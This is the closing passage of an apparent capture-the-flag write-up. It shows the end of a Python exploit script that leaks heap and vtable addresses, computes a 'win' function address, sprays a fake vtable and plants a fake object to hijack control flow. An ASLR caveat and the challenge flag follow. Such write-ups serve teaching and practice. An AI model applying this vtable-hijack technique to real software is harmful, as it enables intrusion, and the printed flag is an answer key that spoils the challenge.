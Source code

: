 ```
    heap_leak = leaker(r, None)
    print(hex(heap_leak))

    vtable_addr = leaker_string(r, heap_leak - var_string_prev_var_offset + 288)

    win_addr = vtable_addr - long_vtable_win_offset

    print("WIN: ", hex(win_addr))

    fake_vtable_addr = sprayer(r, None, p64(win_addr))

    print("FAKE VTABLE: ", hex(fake_vtable_addr))

    fake_object(r, fake_vtable_addr)

    r.interactive()

if __name__ == "__main__":
    main()
```

Note : due to ASLR this may fail sometimes if any addresses contains a newline.


## Flag

`EPFL{why_add_a_logging_feature_in_the_first_place}`
